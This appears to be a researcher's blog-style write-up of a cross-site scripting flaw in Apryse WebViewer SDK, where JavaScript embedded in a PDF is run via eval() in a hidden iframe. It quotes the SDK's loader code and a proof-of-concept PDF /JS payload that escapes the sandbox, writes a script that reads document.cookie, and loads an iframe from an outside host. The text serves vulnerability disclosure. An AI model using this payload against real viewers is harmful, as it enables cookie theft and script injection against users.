 When Apryse WebViewer SDK needs to load a JavaScript code embedded in a PDF, it looks for `/JS` entries, *"pass the code through the sandbox"*, and runs `eval()` on it, and the embedded JavaScript code is run in an invisible iframe titled `jsenabled` (at least in Apryse WebViewer SDK 10.x). In the iframe, the following `<script>` tags load the embedded JavaScript:

```
<script>var event = {};</script>
<script>window.__add_action = function(__script){ return function(){eval(__script); } }</script>
```

By reading the code of [Apryse WebViewer Core](https://docs.apryse.com/documentation/web/get-started/without-viewer/), usually named `webviewer.min.js` or `webviewer-core.min.js`, I found the exact reference to the rendered code in the PDF reader UI (sample from a `webviewer-core.min.js` v10.6).

```
this.ul = document.createElement("iframe"); 
this.ul.style.height = "0px"; 
this.ul.style.width = "0px"; 
this.ul.style.borderWidth = "0px"; 
this.ul.title = "jsenabled"; 
document.body.appendChild(this.ul); 
this.Xp = this.ul.contentWindow; 
var Na = this.Xp.document; Na.open(); 
Na.write("<!DOCTYPE html>"); 
Na.write("<script>var event = {};\x3c/script>"); 
Na.write("<script>window.__add_action = function(__script){ return function(){eval(__script); } }\x3c/script>"); 
Na.close(); 
this.Xp.__assign = function (La, Za) { Ca.Xp[La] = Za; Ca.Cn[La] = Za }; 
this.Tr = !1; this.V2 = ""; 
this.Cn = {}; 
Object.keys(Ea).forEach(function (La) { Ea.hasOwnProperty(La) && (Ca.Cn[La] = Ea[La]) });
w(this.Cn)
```

Now, I knew they used and always had used `eval()` to load embedded JavaScript, and, after my first report, a JavaScript sandbox to mitigate the reported issue and "emulate" Acrobat JavaScript API.I used the payload from [d0nut](https://x.com/d0nutptr)'s write-up to bypass Apryse's sandbox and uploaded a PoC PDF file to my GitHub repo [luigigubello/PayloadsAllThePDFs](https://github.com/luigigubello/PayloadsAllThePDFs) in June 2023\.

```
/JS (
    app.alert\(1\); 
    Object.getPrototypeOf(function*(){}).constructor = null; ((function*(){}).constructor("document.write('<script>confirm(document.cookie);</script><iframe src=https://14.rs>');"))().next();
    )
```

Meanwhile, the repository *PayloadsAllThePDFs* was becoming popular in the bug bounty hunters' community, and that PoC PDF file (`payload1.pdf`) has been silently online for one year. Silently, until April 2024\.

In April 2024, the bug bounty hunter [Hamza Grindi](https://bugcrowd.com/Hamza\_G) reported the issue to Apryse via [VulnDB](https://vuldb.com/?submit.321231).
